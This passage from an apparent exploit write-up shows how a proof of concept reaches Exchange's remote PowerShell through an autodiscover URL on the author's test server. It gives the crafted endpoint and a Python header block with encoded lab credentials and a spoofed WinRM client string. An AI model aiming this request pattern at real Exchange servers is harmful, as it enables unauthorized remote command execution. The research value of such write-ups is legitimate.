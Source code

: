 ![winrm-architecture.png](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/POC-winrmShell/winrm-architecture.png)

## Exploit endpoint

The payload will be sent as a POST request to [`dc.darksys[.]com`](http://dc.darksys.com) domain which is the exchange server setup to test this exploit. The full endpoint URL is as follows:

```vbnet
**https://dc.darksys.com/autodiscover/autodiscover.json?@fucky0u.edu/PowerShell?serializationLevel=Full;ExchClientVer=15.2.922.7;clientApplication=ManagementShell;TargetServer=;PSVersion=5.1.17763.592&Email=autodiscover/autodiscover.json%3f@fucky0u.edu**
```

The headers for each request will remain the same except for the Content-Length :

```vbnet
headers = {
    'User-Agent' : 'Microsoft WinRM Client',
    'Authorization' : 'Basic ZGFya3N5c1xIYW1hZDpQYXNzd29yZEAxMjM=',
    'Content-Type': 'application/soap+xml;charset=UTF-8',
    'Host': 'dc.darksys.com',
    'Expect': '100-continue',
    'Connection': 'Keep-Alive',
    'X-Forwarded-For': 'dc.darksys.com',  
}
headers["Content-Length"] = str(len(soap_data))
```

